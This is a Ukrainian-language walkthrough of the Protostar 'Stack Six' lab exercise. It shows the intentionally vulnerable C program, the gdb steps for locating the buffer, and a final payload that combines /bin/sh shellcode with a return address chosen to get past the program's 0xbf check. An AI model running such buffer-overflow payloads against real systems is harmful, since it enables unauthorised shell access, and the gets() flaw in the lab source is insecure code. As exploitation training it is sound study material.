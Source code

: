 ## [Stack Six](http://exploit.education/protostar/stack-six/)

Stack6 демонструє, що відбувається, коли у вас є обмеження щодо адреси повернення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Знайдемо буфер стека для переповнення:
```
gdb ./stack6
...
disassemble getpath
```

![Disassemble getpath](img/disassemble_getpath.png)

Компілятор використовує EBP як орієнтир для локальних змінних, що полегшує обчислення. 
Буфер розташований на ```0x4c``` або 76 байта від EBP, тому для перезапису зворотної адреси нам просто потрібно записати ще 4 байти. 
Ми могли б знайти буфер користувача в пам'яті під час тестування обчислень таким чином:  
```
ulimit -c unlimited
python -c "print('B' * 80 + 'AAAA')" | ./stack6
...
gdb ./stack6 /tmp/core.11.stack6.1642
...
x/40x $esp-100
```

![Core Dump](img/core_dump.png)

Отже, маємо адресу ```0xbffffс9c```

Якщо спробувати атакувати як раніше, то нічого не вийде, бо у програмі є перевірка значення адреси повернення:  
```python -c "print('\xcc' * 80 + '\xbf\xff\xfc\x9c'[::-1])" | ./stack6```  

####Duplicate payload
Можливо, ми зможемо знайти десь у пам'яті адрусу, яка не починається з ```0xbf......```. 
Давайте завантажимо дамп ядра з попереднього прикладу та спробуємо знайти буфер за більш зручною адресою:  
```
gdb ./stack6 /tmp/core.11.stack6.1642
...
info files
...
find /w1 0xb7fde000, 0xb7fe2000, 0x42424242
```

![Pattern found](img/pattern_found.png)

Витративши деякий час на перебір варіантів, виявляється, що наш буфер дійсно знаходиться за іншою адресою, ```0xb7fde000```. Отже, маємо:  
```(python -c "print('\x90' * 4 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (80 - 24 - 4) + '\xb7\xfd\xe0\x04'[::-1])"; cat) | ./stack6```  

![Shell test](img/shell_test.png)
